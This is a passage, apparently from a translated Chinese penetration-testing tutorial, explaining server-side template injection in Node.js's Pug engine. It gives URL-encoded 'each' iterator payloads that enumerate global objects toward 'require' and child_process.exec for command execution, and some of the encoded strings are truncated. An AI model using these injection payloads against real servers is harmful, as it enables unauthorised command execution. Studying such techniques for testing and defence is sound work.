 解析全局对象：
* 让我们通过在全局范围内使用 Pug 迭代器‘each’来查看我们可以访问的对象和属性。记住换行符（%0a）和空格（%20）：
    * each val,index in	global 
    p=index 
    * URL 编码：
%0a%65%61%63%68%20%76%61%6c%2c%69%6e%64%65%78%2
* 在上面的例子中，我们使用‘each’迭代器，它可以访问一个值，并且如果我们指定了数组或对象，也可以选择访问索引。我们试图找到我们在全局对象中可以访问的对象，方法或模块。我们的最终目标是找到类似“require”方法的东西，以允许我们导入 child_process.exec，它允许我们运行系统命令。从现在开始，我们只是使用反复试验来识别最终会给我们 require 方法的方法或对象。
 
 ![](../images/chapter_3/3-30.png)

查找代码执行功能：

* 从上一个请求中，我们看到了全局中的所有对象以及一个名为“process”的对象。接下来，我们需要识别我们在 global.process 中可以访问的有趣对象：
    * each val,index in	global.process
    p=index 
    * URL 编码：
%0a%65%61%63%68%20%76%61%6c%2c%69%6e%64%65%7
* 我们从所有可用的方法中选择“process”，因为我们知道它最终会导致‘require’。你可以通过选择不同的迭代方法来尝试尝试和错误过程：
    * each val,index in	global.process.mainModule 
    p = index
* URL 编码：
%0a%65%61%63%68%20%76%61%6c%2c%69%6e%64%65%78%2

  ![](../images/chapter_3/3-31.png)
 